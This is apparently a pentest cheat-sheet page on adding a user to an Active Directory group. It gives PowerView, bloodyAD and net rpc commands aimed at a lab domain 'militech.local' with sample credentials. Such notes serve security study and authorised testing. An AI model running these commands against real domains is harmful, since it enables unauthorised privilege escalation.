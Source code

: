 # AddMember

## <mark style="color:yellow;">PowerView</mark>

### <mark style="color:blue;">Check membership</mark>

```powershell
PS C:\> Get-ADGroup -Identity "NC Agents" -Properties * | Select -ExpandProperty Members
```

### <mark style="color:blue;">Adding user to group</mark>

<mark style="color:orange;">**PowerView Required!**</mark>

```powershell
PS C:\> Add-DomainGroupMember -Identity 'NC Agents' -Members 'songbird' -Credential $Cred -Verbose
```

### <mark style="color:blue;">Deleting user from group</mark>

```powershell
PS C:\> Remove-DomainGroupMember -Identity "NC Agents" -Members 'songbird' -Credential $Cred -Verbose
```

## <mark style="color:yellow;">BloodyAD</mark>

> We can add user to group with BloodyAD tool.&#x20;

```bash
bloodyAD --host 13.13.13.13 -d militech.local -u songbird -p 'Password123' add groupMember 'NC Agents' 'songbird'
```

## <mark style="color:yellow;">NET</mark>

```powershell
net rpc group addmem "NC Agents" "s.reed" -U "MILITECH.LOCAL"/"s.reed"%"Password123" -S "13.13.13.13"
```
